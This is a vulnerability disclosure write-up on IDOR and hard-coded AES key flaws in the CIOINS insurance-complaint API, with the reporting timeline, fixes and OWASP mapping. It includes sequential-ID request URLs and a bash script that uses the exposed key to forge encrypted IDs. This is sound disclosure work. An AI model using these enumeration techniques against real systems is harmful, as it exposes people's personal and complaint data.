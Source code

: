 ```yaml
---
title: Council of Insurance Ombudsman CIOINS API Vulnerabilities 2024
date:
  created: 2025-08-13
  updated: 2025-09-12
---
```


<br>
Council of Insurance Ombudsman CIOINS website (<https://cioins.co.in>) had numerous
vulnerabilities covering several OWASP TOP 10 categories in 2024. The vulnerabilities allowed
access to a complainant's phone, email, address, dob, policy number, complaint details
and any award passed. After reporting it
to CERT-in (CIOINS doesn't have a direct email for this), they simply masked the issue with bogus
encryption with key exposed in the front-end source code.

After a followup, a proper fix was implemented but with significant delay.

Summary of the vulnerabilities:

| Sr | API  | Date reported | Date fixed | Days taken | CERT-in reference number |
|----|------|---------------|------------|------------|--------------------------|
| 1  | [FetchComplaintDetails](#1-fetchcomplaintdetails)  | 16 November 2024 | 9 December 2024 | 21 | 07586124 |
| 2  | [RetrieveData](#2-retrievedata)  | 16 November 2024 | 9 December 2024 | 21 | 07586124 |
| 3  | [FetchComplaints](#3-fetchcomplaints)  | 16 November 2024 | 9 December 2024 | 21 | 07586124 |
| 4  | [encrypted FetchComplaintDetails](#4-fetchcomplaintdetails-encrypted-payload)  | 9 December 2024 | 20 January 2025 | 41 (63 from original) | 07586124 |
| 5  | [encrypted RetrieveData](#5-retrievedata-encrypted-payload)  | 9 December 2024 | 20 January 2025 | 41 (63 from original) | 07586124 |
| 6  | [encrypted FetchComplaints](#6-fetchcomplaints-encrypted-payload)  | 9 December 2024 | 20 January 2025 | 41 (63 from original) | 07586124 |

Root cause in [OWASP](https://cheatsheetseries.owasp.org/index.html) terms:

- A01 2021 Broken Access Control: CWE-284 Improper Access Control, CWE-285 Improper Authorization
- A02 2021 Cryptographic Failures: CWE-321 Use of Hard-coded Cryptographic Key
- A04 2021 Insecure Design: CWE-73 External Control of File Name or Path, Insecure Direct Object Reference
- A07 2021 Identification and Authentication Failures: CWE-287 Improper Authentication, CWE-613 Insufficient Session Expiration

<!-- more -->

### 1. FetchComplaintDetails

This API endpoint was vulnerable to IDOR (Insecure Direct Object Reference). By accepting a serially increasing complaint ID, this API provided complainant's name, mobile, complaint text, and policy number.

No sophisticated knowledge of curl tools needed. Simply opening this in the browser was sufficient.

```text
https://cioins.co.in/Complaint/Track/FetchComplaintDetails?CompID=74100&mode=ON
https://cioins.co.in/Complaint/Track/FetchComplaintDetails?CompID=74101&mode=ON
https://cioins.co.in/Complaint/Track/FetchComplaintDetails?CompID=74102&mode=ON
https://cioins.co.in/Complaint/Track/FetchComplaintDetails?CompID=74103&mode=ON
https://cioins.co.in/Complaint/Track/FetchComplaintDetails?CompID=74104&mode=ON
```

### 2. RetrieveData

By using the mobile number obtained in the above vulnerability, this API endpoint could be used to retrieve the complainant's details including name, email, address, and date of birth.

```text
https://cioins.co.in/Complaint/Online/RetrieveData?mobileNumber=$$$$$$$$$$
```

### 3. FetchComplaints

This API provided a list of complaints associated with a mobile number. It returned details such as complaint ID, status, and date of filing.

```text
https://cioins.co.in/Complaint/Track/FetchComplaints?mobile=$$$$$$$$$$
```

### $$ Bogus encryption

As per the timelines in the table above, payload was merely AES encrypted and decrypted using a key and initialization vector exposed in the front-end code. The script to do it locally is as following.

```bash title="encr_decr.sh" linenums="1"
#!/bin/bash
KEY=38303830383038303830383038303830
IV=38303830383038303830383038303830
# KEY=8080808080808080
# IV=8080808080808080
decrypt() {
    echo $(echo -n "$1" | openssl enc -aes-128-cbc -base64 -d -K "$KEY" -iv "$IV" -nosalt)
}

encrypt() {
    echo $(echo -n "$1" | openssl enc -e -aes-128-cbc -base64 -K "$KEY" -iv "$IV" -nosalt)
}

for i in "74101" "74102" ; do
    echo $i
    encrypt $i
    # URL encoding
    encrypt $i | jq -sRr @uri
done
```

??? note "Online encryption using emn178.github.io"
    <https://emn178.github.io/online-tools/aes/encrypt/>

    ![online](contents_cioins/encryption.jpg)

### 4. FetchComplaintDetails Encrypted Payload

The parameters are the same as in [FetchComplaintDetails](#1-fetchcomplaintdetails) but encrypted as shown in the script above.

```text
https://cioins.co.in/Complaint/Track/FetchComplaintDetails?CompID=evmr74Rz6KPWPjrGop6JVQ%3D%3D&mode=ON
https://cioins.co.in/Complaint/Track/FetchComplaintDetails?CompID=tdTRukPbD1ADr581eavRWg%3D%3D&mode=ON
https://cioins.co.in/Complaint/Track/FetchComplaintDetails?CompID=54fjn5aez4hZzUb5CdphRg%3D%3D&mode=ON
https://cioins.co.in/Complaint/Track/FetchComplaintDetails?CompID=TOOqRpQioUbzVJK579jyNA%3D%3D&mode=ON
https://cioins.co.in/Complaint/Track/FetchComplaintDetails?CompID=uRDIXscht1j4HcfI8vX6Sg%3D%3D&mode=ON
```

### 5. RetrieveData Encrypted Payload

The parameters are the same as in [RetrieveData](#2-retrievedata) but encrypted as shown in the script above.

```text
https://cioins.co.in/Complaint/Online/RetrieveData?mobileNumber=c1FQnlPmmmtf4mEnALGVyQ%3D%3D
```

### 6. FetchComplaints Encrypted Payload

The parameters are the same as in [FetchComplaints](#3-fetchcomplaints) but encrypted as shown in the script above.

```text
https://cioins.co.in/Complaint/Track/FetchComplaints?c1FQnlPmmmtf4mEnALGVyQ%3D%3D
```

### $$ Fix using OTP

After fixing, an OTP verification for every step of the process was added, i.e., an OTP is required for accessing each complaint.

```bash title="sample_script_fixed.sh" linenums="1"
time=$(date '+%F_%T')
curl 'https://cioins.co.in/Complaint/Track/FetchComplaintDetails' -X POST \
-H 'Cookie: .AspNetCore.Session=$$$$$$$$$$' \
--data-raw 'CompID=c1FQnlPmmmtf4mEnALGVyQ%3D%3D&mode=ON&inputOTP=GMvdPTixRnzYwJ%2BW%2BMy4iw%3D%3D' \
-o "complaint_$time.json" \
```

